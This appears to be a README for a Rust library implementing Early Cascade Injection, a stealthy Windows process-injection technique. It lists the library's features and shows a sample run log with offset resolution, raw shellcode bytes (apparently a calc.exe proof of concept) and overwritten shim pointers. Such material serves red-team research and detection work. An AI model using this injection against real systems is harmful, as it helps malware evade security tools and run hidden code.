

# rs_early_cascade

Rust implementation of [Early Cascade Injection](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/)

Includes:
- API resolution via PEB walk.
- Dynamic `g_pfnSE_DllLoaded` and `g_ShimsEnabled` offset resolution.
- Formatted imports and library structure fo easy integration into other projects and use with `no_std`.

## Example output

```
[INJECT:CASCADE] Creating process...
[INJECT:CASCADE] Suspended process created
[INJECT:CASCADE:SECTIONS]
         Number: 10
[INJECT:CASCADE:SECTIONS]
        section: .text
          start: 0x1000
           size: 0x11901e
            end: 0x11a01e
[INJECT:CASCADE:SECTIONS]
        section: .data
          start: 0x166000
           size: 0xb518
            end: 0x171518
[INJECT:CASCADE:SECTIONS]
        section: .mrdata
          start: 0x181000
           size: 0x3520
            end: 0x184520
[INJECT:CASCADE:OFFSETS] Done searching - these offsets should remain constant per ntdll hash
[INJECT:CASCADE:OFFSETS] g_pfnSE_DllLoaded: 0x181268
[INJECT:CASCADE:OFFSETS] g_shims_enabled: 0x16d194
[INJECT:CASCADE] Memory allocated in the remote process @ 0x21f78800000
[INJECT:CASCADE] Final payload bytes: [48, 31, c0, 48, ba, 94, d1, af, fc, fe, 7f, 0, 0, 88, 2, 48, ba, 33, 0, 80, 78, 1f, 2, 0, 0, 48, b8, e0, d6, a2, fc, fe, 7f, 0, 0, 4d, 31, c9, 4d, 31, c0, 49, 8d, 48, fe, ff, d0, 48, 31, c0, c3, fc, 48, 83, e4, f0, e8, c0, 0, 0, 0, 41, 51, 41, 50, 52, 51, 56, 48, 31, d2, 65, 48, 8b, 52, 60, 48, 8b, 52, 18, 48, 8b, 52, 20, 48, 8b, 72, 50, 48, f, b7, 4a, 4a, 4d, 31, c9, 48, 31, c0, ac, 3c, 61, 7c, 2, 2c, 20, 41, c1, c9, d, 41, 1, c1, e2, ed, 52, 41, 51, 48, 8b, 52, 20, 8b, 42, 3c, 48, 1, d0, 8b, 80, 88, 0, 0, 0, 48, 85, c0, 74, 67, 48, 1, d0, 50, 8b, 48, 18, 44, 8b, 40, 20, 49, 1, d0, e3, 56, 48, ff, c9, 41, 8b, 34, 88, 48, 1, d6, 4d, 31, c9, 48, 31, c0, ac, 41, c1, c9, d, 41, 1, c1, 38, e0, 75, f1, 4c, 3, 4c, 24, 8, 45, 39, d1, 75, d8, 58, 44, 8b, 40, 24, 49, 1, d0, 66, 41, 8b, c, 48, 44, 8b, 40, 1c, 49, 1, d0, 41, 8b, 4, 88, 48, 1, d0, 41, 58, 41, 58, 5e, 59, 5a, 41, 58, 41, 59, 41, 5a, 48, 83, ec, 20, 41, 52, ff, e0, 58, 41, 59, 5a, 48, 8b, 12, e9, 57, ff, ff, ff, 5d, 48, ba, 1, 0, 0, 0, 0, 0, 0, 0, 48, 8d, 8d, 1, 1, 0, 0, 41, ba, 31, 8b, 6f, 87, ff, d5, bb, f0, b5, a2, 56, 41, ba, a6, 95, bd, 9d, ff, d5, 48, 83, c4, 28, 3c, 6, 7c, a, 80, fb, e0, 75, 5, bb, 47, 13, 72, 6f, 6a, 0, 59, 41, 89, da, ff, d5, 63, 61, 6c, 63, 2e, 65, 78, 65, 0]
[INJECT:CASCADE:POINTER] function pointer: 0x21f78800000
[INJECT:CASCADE:POINTER] Encoded function pointer: 87eb0339aa800000
[INJECT:CASCADE:OVERWRITE] Write result for g_pfnSE_DllLoaded: 0x0
[INJECT:CASCADE:OVERWRITE] Write result for g_ShimsEnabled: 0x0
[INJECT:CASCADE] Thread resumed: 0x0
```



# References
- https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/
- https://gist.github.com/mgeeky/ac3ef69a3c5a32cc32ce596115371173
